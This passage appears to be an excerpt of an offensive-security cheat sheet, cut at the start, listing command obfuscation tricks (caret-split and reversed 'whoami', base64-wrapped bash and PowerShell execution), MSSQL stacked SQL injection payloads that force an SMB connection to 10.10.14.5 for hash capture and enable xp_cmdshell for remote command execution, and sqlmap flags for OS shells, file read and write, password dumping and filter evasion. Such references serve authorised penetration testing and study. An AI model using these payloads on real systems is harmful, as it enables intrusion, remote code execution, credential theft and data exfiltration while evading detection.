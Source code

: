             *   `who^ami`
            *   `WhOAmi`
            *   `"$('imaohw'[-1..-20] -join '')"`
    *   B64 Obfuscation
        *   Linux
            *   `echo -n [CMD] | base64`
            *   `bash<<<$(base64 -d<<<[B64_STRING])`
        *   Windows
            *   `echo -n [CMD] | iconv -f utf-8 -t utf-16le | base64`
            *   `“$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('B64')))”`

### SQL Injection

*   Enumeration
    *   DB Lookup / Update Requests
    *   Injections   → Error / Union / Blind / Stacked / OOB
    *   [SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)            → Postgres / MSSQL / MySQL / H2 Java
    *   [NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)      → MongoDB / Oracle
*   MSSQL Stacked
    *   LLMNR
        *   `?param=8; EXEC master ..xp_dirtree '\\10.10.14.5\test'; --`
    *   RCE
        *   `?param=8; EXEC sp_configure 'show advanced option', '1'; GO; RECONFIGURE; --`
        *   `?param=8; EXEC sp_configure 'xp_cmdshell', 1; GO; RECONFIGURE; --`
        *   `?param=8; EXEC master ..xp_cmdshell '[OS_CMD]'; --`
*   SQLMap
    *   Cheat Sheet
        *   `sqlmap [-u/r] [URL/RAW_REQUEST] --dbms [DB_TYPE] --level=5 --risk=3 --batch --dbs --flush-session`
        *   DB Types            → `MySQL` / `MariaDB` / `Microsoft SQL Server` / `Oracle` / `PostreSQL` / `Sqlite`
        *   POST Data         → `--data [PAYLOAD]`
        *   Parameter         → `-p [PARAM_NAME]` / Omit to Test Full Request
        *   Injection Type   → `--technique=[B,E,U,T,S]` → Supports Multiple: `BETS` / Avoid Time if Possible
        *   WSS URLs          → `-u [ws://HOST:PORT]`
    *   Code Execution
        *   `--os-shell`
        *   [H2 Java SQLi RCE](https://attacke.rs/posts/h2-sqli-rce/)
    *   OS Read / Upload
        *   `--file-read=[PATH]`
        *   `--file-write=[SRC] --file-dest=[DEST]`
    *   Data Dumping
        *   DBs                → `--dbs` / `--schema`
        *   Tables            → `-D [DB_NAME] --tables`
        *   Columns       → `-D [DB_NAME] -T [TABLE] --dump`
        *   Username    → `--current-user`, `--is-dba`, `--users`, `--privileges`
        *   Banner          → `--banner`
        *   Passwords    → `--passwords`
        *   All-In-One     → `--all` / `--dump`
        *   SQL Queries → `--sql-shell`
    *   Tuning
        *   Filtering
            *   `--code=[STATUS]`
            *   `--string=[RESPONSE_STRING]`
            *   `--text-only`
        *   UNION
            *   `--union-char="a"`
            *   `--union-from=users`
            *   `--union-cols=[COLS]`
        *   Evasion
            *   `--randomize=[PARAM]`